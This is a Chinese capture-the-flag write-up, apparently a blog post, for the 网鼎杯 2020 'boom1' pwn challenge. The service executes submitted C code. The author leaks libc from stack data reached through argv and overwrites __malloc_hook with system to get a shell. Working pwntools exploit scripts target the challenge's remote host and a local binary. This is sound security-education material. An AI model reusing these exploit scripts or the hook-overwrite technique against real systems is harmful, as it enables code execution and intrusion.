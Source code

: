 ```yaml
---
title: 网鼎杯 2020 Pwn boom1
date: 2020-05-10 00:00:00
categories:
- CTF/Pwn
tags:  
---
```


> 64位程序，保护全开，可以执行我们发送的c代码，但可以执行的代码有些限制，不能执行system之类的函数，但可以任意写内存。最终通过利用栈上的数据，获得了libc的基址，完成了对__malloc_hook的劫持，进而getshell。

- 题目地址：nc 182.92.73.10 24573
- 题目附件：[boom1](https://xuanxuanblingbling.github.io/assets/attachment/boom1)

## 分析

程序保护全开，可以执行我们发送的c代码，但是函数只能调用固定的几个函数，而且只能调用一次。不过因为可以执行代码，而且支持指针，所以通过赋值语句就可以完成内存的修改，也就是说这题本身就有**任意读写内存的能力**，只需要泄露出关键的地址即可控制流劫持。通过调试发现在执行我们的函数时的栈上是保存着很多信息的，程序地址，堆，栈，libc相关信息都能在栈上找得到。所以只要能使用栈上的变量即可，想到两种方法获得栈地址：

1. 通过main函数的argv
2. 通过直接对我们可以控制的局部变量取地址

拿到栈地址后，对栈地址进行偏移调整，然后解引用，观察其值，找到libc相关的地址，与本地libc基址进行对比，进而得到偏移。然后通过赋值语句修改能控制流劫持的重要内存即可，这里修改malloc_hook为system，然后执行调用malloc传/bin/sh即可getshell。

## 调试

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
gdb_libc_base = int(os.popen("pmap "+str(io.pid)+"| grep libc | awk '{"+"{print $1}"+"}'").readlines()[0], 16)
payload= '''
int main(int argc,char ** argv){
    int a;
    printf("%llx,%llx\n",&a,argv);
}
'''
gdb.attach(io)
io.send(payload)
log.warn(hex(gdb_libc_base))
io.interactive()
```

不过根据调试的结果：

```bash
[*] Switching to interactive mode
I'm living...
7f56c2bb8fd8,7ffe2eacba40
```

就会发现：

1. argv获得的是真正的栈地址
2. &a获得是在堆上的逻辑栈

不过通过printf打印这两个栈上内容发现都有libc相关数据。

## 利用

写内存时注意类型转换才可以成功` * (int *)malloc_hook = system;`中`(int *)`必不可少

1. 远程通过argv利用
2. 本地通过&a利用

### 远程

> 远程的libc和本地的2.23相同，因为调试的时候去掉本地算出的偏移后后三位也是0，所以基本确定。

```python
from pwn import *
io = remote("182.92.73.10",24573)
payload= '''
int main(int argc,char ** argv){
    int libc,system,malloc_hook;
    libc = argv[24]-0x3ca000;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("/bin/sh");
}
'''
io.send(payload)
io.interactive()
```

### 本地

```python
from pwn import *
myelf = ELF("./pwn")
io = process(myelf.path)
payload= '''
int main(){
    int libc,system,malloc_hook;
    libc = *(&system-2)-0x509fd8;
    system = libc + 0x45390;
    malloc_hook = libc + 0x3c4b10;
    * (int *)malloc_hook = system;
    malloc("cat /flag");
}
'''
io.send(payload)
io.interactive()
```

## 总结

可以看到本题基本没有怎么分析二进制，却一样能做出来，所以做题不一定非要清楚漏洞在哪（这个二进制我也看不太懂，感谢mcfx指导我，才能做出这题）。另外个人觉得这题也无法归类到二进制漏洞中，就是一种情景，在这个情景下你能运行代码，进行内存写，不过运行的做了一些限制，不过你还是能绕过这些限制劫持控制流。**即这题本身就有读写任意内存的能力，不过你得想办法泄露一些地址信息，本题的泄露方法就是对栈的理解和应用**。我认为这道题可以类似理解为攻击oj，就是一个能运行你代码的程序，你咋攻击他，挺神奇的一个题。

- [有什么卡OJ评测机的方法](https://www.zhihu.com/question/67138068)